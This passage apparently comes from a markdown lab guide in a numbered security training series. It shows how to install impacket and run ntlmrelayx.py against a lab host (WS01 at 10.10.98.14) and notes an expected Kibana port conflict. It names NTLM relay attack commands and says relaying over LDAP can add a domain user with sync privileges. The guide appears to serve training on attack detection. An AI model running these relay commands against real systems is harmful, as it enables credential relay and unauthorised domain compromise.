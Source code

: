 ![Bash Input][BashInput]

```bash
python3.6 -m pip install .
```


After the dependencies and impacket toolkit has been installed continue with the execution of the toolkit below. 
Launch ntlmrelayx.py with the following commands to target the WS01 system. This tool could also be used to run commands on the remote system[s]. Further, ntlmrelayx could also target an LDAP server, where SMB signing is enforced by default. Relaying a privileged account successfully over LDAP will result in an additional user with sync privileges being added to the target domain.

![Bash Input][BashInput]
```bash
cd examples
sudo python3.6 ntlmrelayx.py -t 10.10.98.14 -smb2support
```
* NOTE: You will hit an error that is expected due to the use of port 443 for Kibana (Address already in use):

![Bash Output][BashOutput]

| ![](images/L1150-2.png) |
|----------|

| ![](images/L1150-3.png) |
|----------|


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/
